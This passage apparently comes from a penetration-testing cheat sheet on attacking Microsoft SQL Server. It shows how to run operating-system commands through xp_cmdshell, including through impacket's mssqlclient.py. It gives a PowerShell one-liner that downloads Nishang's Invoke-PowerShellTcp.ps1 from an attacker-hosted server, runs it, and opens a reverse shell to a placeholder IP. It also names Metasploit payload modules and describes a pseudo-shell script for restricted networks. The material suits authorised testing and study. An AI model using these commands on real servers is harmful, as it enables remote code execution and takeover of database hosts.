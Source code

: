 ```SQL

-- To update the currently configured value for this feature.  
RECONFIGURE;  
GO
```

Operating system CMD commands can then be executed:

```SQL
EXEC xp_cmdshell '<CMD>'
GO
```

The SQL queries above can be made using the `sqsh` Linux utility as well as
the `impacket` Python script `mssqlclient.py`. The `mssqlclient.py` client
integrates the `enable_xp_cmdshell` and `xp_cmdshell` commands to automatically
enable xp_cmdshell and execute command through it.

```bash
# mssqlclient.py ...
SQL> enable_xp_cmdshell
SQL> xp_cmdshell <CMD>
SQL> sp_start_job <CMD>
```

###### PowerShell reverse shell

In order to execute command through a system shell, the `PowerShell` `Nishang`'s
`Invoke-PowerShellTcp.ps1` can be used.

Once a web server hosting the `PowerShell` script and a listener are up and
running, the following commands can be used to download and execute the script
through the MSSQL service:

```sql
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port>;"

-- Invoke-PowerShellTcp -Reverse -IPAddress <IP> -Port <Port> must be added at the end of the script
EXEC xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<WEBSERVER_IP>:<WEBSERVER_PORT>/Invoke-PowerShellTcp.ps1')"
```

###### Metasploit

The `Metasploit` module `exploit/windows/mssql/mssql_payload` automates the
tasks above to deploy a payload, such as a reverse `meterpreter`, on the server
through the MSSQL service.

The module `exploit/windows/mssql/mssql_payload_sqli` works similarly and can
be used through an SQL injection.

###### Standalone MSSQL shell for constrained environments

If outbound traffic (TCP, UDP, ICMP, etc.) is being blocked, the following
`Python` script can be used as a pseudo shell by making use of `xp_cmdshell`
and keeping track of the current working directory. The script also provides a
way to upload / download files using multiple echo commands in order to write a
base64-encoded file on the server and decoding it using the `certutil` utility.  
